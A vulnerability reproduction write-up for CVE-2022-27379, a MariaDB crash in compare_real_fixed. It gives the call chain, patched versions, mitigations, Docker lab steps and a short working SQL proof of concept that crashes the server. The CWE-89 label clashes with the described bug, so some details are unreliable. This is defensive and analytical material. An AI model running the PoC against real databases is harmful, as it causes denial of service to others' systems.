



# CVE-2022-27379 CWE-89 MariaDB DoS

## Vulnerability Background
- **MariaDB :** An open-source relational database management system developed by the founders of MySQL, highly compatible with MySQL. It features high performance, high security, and ease of use, supporting multiple storage engines to ensure reliable data storage and efficient read/write operations. At the same time, MariaDB also possesses powerful query optimization capabilities, enhancing database performance and being widely used across various industries, providing strong support for data storage and management.

## Vulnerability Mechanism
`Arg_comparator::compare_real_fixed` There are flaws in handling certain special/irregular combinations of real/fixed-point parameters, causing MariaDB to be triggered by constructing SQL that can crash or interrupt services, resulting in Denial-of-Service DoS.

## Vulnerability Location
Analyzing the MariaDB 10.6.2 source code and the crash stack of MDEV-26353:

- The direct crash point is located at `Arg_comparator::compare_real_fixed()` of `sql/item_cmpfunc.cc` (line 897 in the report). This function obtains real values on both sides through the comparator object; The deformed generated list expression causes the internal object state of the comparator to become invalid, and the virtual function call eventually enters `__cxa_pure_virtual` and terminates the process.
- The call chain is `Arg_comparator::compare()` → `Item_func_ne::val_int()` → `Item_func_truth::val_int()` → `Item::save_in_field()` → `TABLE::update_virtual_fields()`. Therefore, the problem arises during the writing of lines and calculation of the generated columns, rather than the SQL text parsing phase.

```cpp
int Arg_comparator::compare_real_fixed()
{
  /* The vulnerable build dereferences comparator operands whose dynamic
     object state can already be invalid while evaluating a virtual column. */
  double val1= (*a)->val_real();
  double val2= (*b)->val_real();
  if ((*a)->null_value || (*b)->null_value)
    return -1;
  return compare_double(val1, val2);
}
```

The abbreviated code above is used to mark hazardous access locations; The exact line number and call chain are based on the debug stack of MariaDB 10.6.2 in MDEV-26353.

## Remediation

Upgrade to MariaDB 10.3.35, 10.4.25, 10.5.16, 10.6.8, 10.7.4, or later. The MDEV-26353 correction keeps generated-column comparison expressions and their `Arg_comparator` operands in a valid lifetime and initialization state before `TABLE::update_virtual_fields()` evaluates them, preventing the virtual call in `compare_real_fixed()` from reaching a destroyed object.

As a temporary risk reduction, deny untrusted accounts DDL privileges on tables that use generated columns and avoid exposing attacker-controlled expressions through writable virtual-column definitions. Query filtering is not a reliable permanent fix because semantically equivalent expressions can reach the same evaluation path.

## Affected Versions
**Affected version:** MariaDB:

- 10.3.0 to 10.3.34
- 10.4.0 to 10.4.24
- 10.5.0 to 10.5.15
- 10.6.0 to 10.6.7
- 10.7.0 to 10.7.3

## Environment Setup
Starting the Docker environment, MariaDB version is 10.6.3, administrator is root user, password is 12345, there is a database test_db, open port 3306, and PoC file `CVE-2022-27379-PoC.sql` already exists in the container.

```txt
NIST: NVD Base Score: 7.5 HIGHVector:  CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
```

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
1. Enter the container command line

```bash
docker exec -it mariadb-10.6.3 bash
```

2. Log in with the root user and connect to the database test_db, password 12345

```sql
mariadb -u root -p test_db
```

3. Run the PoC file CVE-2022-27379-PoC.sql, and you will see that the connection is disconnected and the container automatically closes

```sql
source CVE-2022-27379-PoC.sql
```



4. Looking at the MariaDB crash log, you can see that the occurrence of UAF causes DoS, and the problem occurs in `Arg_comparator::compare_real_fixed()`, corresponding to the vulnerability principle.

```bash
docker logs mariadb-10.6.3
```



## PoC Analysis

```sql
CREATE  TABLE t1 (v2 varchar(50) AS ( NULL IN ( 'x' SOUNDS LIKE UTC_TIME())));
 SELECT  DEFAULT (v2) FROM t1 ;
 INSERT IGNORE INTO t1 VALUES ( 1 ) ;
```

## References
[NVD - CVE-2022-27379](https://nvd.nist.gov/vuln/detail/CVE-2022-27379)

[[MDEV-26353\] MariaDB server crash in Arg_comparator::compare_real_fixed - Jira](https://jira.mariadb.org/browse/MDEV-26353)
